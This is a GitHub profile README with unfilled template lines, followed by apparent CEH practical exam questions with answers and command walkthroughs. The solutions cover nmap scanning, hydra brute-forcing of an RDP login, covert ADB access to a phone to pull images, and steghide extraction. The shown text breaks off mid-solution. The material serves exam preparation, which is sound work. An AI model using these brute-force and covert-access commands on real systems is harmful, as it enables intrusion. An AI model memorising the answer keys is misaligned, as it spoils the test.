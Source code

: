 - 👋 Hi, I’m @ko12345sdc
- 👀 I’m interested in ...
- 🌱 I’m currently learning ...
- 💞️ I’m looking to collaborate on ...
- 📫 How to reach me ...
- 😄 Pronouns: ...
- ⚡ Fun fact: ...








======================================================================================
Questions
===========
1. Perform an extensive scan of the target network and identify the Product
Version of the Domain Controller. (Format: NN.N.NNNNN)
Answer: 10.0.20348
nmap --script smb-os-discovery -p 445 <DC-IP-Address>
OS: Windows Server 2022 Datacenter 20348 (Windows 10.0 Build 20348)
-------------------------------------------------------------------------------------------------------
2. While investigating an attack, you found that a Windows web development environment was exploited to gain access to the system. Perform extensive scanning and service enumeration of the target networks and identify the number of mercury services running in the Server. (Format: N)
Answer: 7
Solution:
nmap -sV -p 25,80,110,143 <ip-subnet> # 192.168.0/24
Need to Perform the same scan on all three subnets i.e. 10.10.1.0/24, 192.168.0.0/24, 172.20.0.0/24

-------------------------------------------------------------------------------------------------------
3. Identify a machine with RDP service enabled in the 10.10.55.0/24 subnet. 
Crack the RDP credentials for user Jones and obtain a file hide.cfe containing an encrypted image file. 
Decrypt the file and enter the CRC32 value of the image file as the answer. 
Note: Use Jones's password to extract the image file.. (Format: NaaNNNaa)
Answer: 2bb407ea
Solution:
Identify Machines with RDP Enabled
	nmap -p 3389 --open -sV 10.10.55.0/24
Crack RDP Credentials
	hydra -t 1 -V -f -l Jones -P /home/passlist.txt rdp://10.10.55.X
Transfer the File hide.cfe to parrot or windows machine.
Upload the image in this website [https://emn178.github.io/online-tools/crc32_checksum.html] and get the answer

-------------------------------------------------------------------------------------------------------
4. An insider attack involving one of the employee's mobile devices in the
10.10.55.0/24 subnet has been identified. You are assigned to covertly access the user's
device and obtain hidden data in the image file stored. Analyze the image file and extract the
sensitive data hidden in the file and enter the secret code as the answer. (Format: A
AaAaAN)
Answer: C@TcHm$Q2
Solution:
1. Scan the Subnet:
nmap -p 80,443,8080,8443,5228 --open 10.10.55.0/24
2. Connect via ADB (if Android):
adb connect 10.10.55.X:5555
3. Locate and Pull Image File:
adb shell
find /sdcard/ -name "*.jpg" -o -name "*.png"
adb pull /sdcard/Downloads/CEH.jpg ./ceh.jpg
4. Extract Hidden Data with Steghide:
steghide extract -sf ceh.jpg
5. Analyze Extracted Data: